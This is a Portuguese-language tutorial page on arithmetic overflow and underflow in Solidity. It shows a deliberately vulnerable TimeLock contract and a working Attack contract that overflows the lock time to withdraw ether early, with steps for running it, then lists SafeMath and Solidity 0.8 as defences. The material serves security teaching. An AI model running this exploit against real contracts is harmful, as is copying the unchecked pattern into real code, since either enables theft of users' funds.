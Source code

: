 # Overflow e Underflow Aritméticos

#### Vulnerabilidade <a href="#vulnerability" id="vulnerability"></a>

**Solidity < 0.8**

Números inteiros no Solidity overflow / underflow sem nenhum erro

**Solidity >= 0.8**

Comportamento padrão do Solidity **>=** 0.8 para overflow / underflow é lançar um erro.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.7.6;

// Este contrato é designado para atuar como um cofre temporário.
// O usuário pode depositar nesse contrato mas não pode retirar por pelo menos 1 semana.
// O usuário também pode estender o tempo de espera além do período de 1 semana.

/*
1. Implemente TimeLock
2. Implemente Attack com endereço do TimeLock
3. Chame Attack.attack enviando 1 ether. Você será capaz de retirar 
   seu ether imediatamente.

O que aconteceu?
Attack causou overflow do TimeLock.lockTime e foi capaz de retirar
antes do período de 1 semana.
*/

contract TimeLock {
    mapping(address => uint) public balances;
    mapping(address => uint) public lockTime;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
        lockTime[msg.sender] = block.timestamp + 1 weeks;
    }

    function increaseLockTime(uint _secondsToIncrease) public {
        lockTime[msg.sender] += _secondsToIncrease;
    }

    function withdraw() public {
        require(balances[msg.sender] > 0, "Insufficient funds");
        require(block.timestamp > lockTime[msg.sender], "Lock time not expired");

        uint amount = balances[msg.sender];
        balances[msg.sender] = 0;

        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}

contract Attack {
    TimeLock timeLock;

    constructor(TimeLock _timeLock) {
        timeLock = TimeLock(_timeLock);
    }

    fallback() external payable {}

    function attack() public payable {
        timeLock.deposit{value: msg.value}();
        /*
        se t = tempo de bloqueio atual então precisamos encontrar x tal que
        x + t = 2**256 = 0
        então x = -t
        2**256 = type(uint).max + 1
        então x = type(uint).max + 1 - t
        */
        timeLock.increaseLockTime(
            type(uint).max + 1 - timeLock.lockTime(address(this))
        );
        timeLock.withdraw();
    }
}
```



#### Técnicas preventivas <a href="#preventative-techniques" id="preventative-techniques"></a>

* Use [SafeMath](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/math/SafeMath.sol) para evitar overflow e underflow
* Solidity 0.8 tem como padrão lançar um erro para overflow / underflow
